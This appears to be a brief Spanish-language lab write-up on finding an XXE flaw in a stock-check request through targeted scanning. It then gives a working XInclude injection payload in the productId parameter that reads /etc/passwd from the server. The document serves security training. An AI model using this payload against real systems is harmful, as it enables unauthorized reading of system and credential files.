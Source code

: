 ```yaml
---
layout: default
title: 1 - Discovering vulnerabilities quickly with targeted scanning
---
```

Lanzamos un active scan sobre la request para checkear el stock y nos tira un XXE :

**Exploiting XInclude to retrieve files**

```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
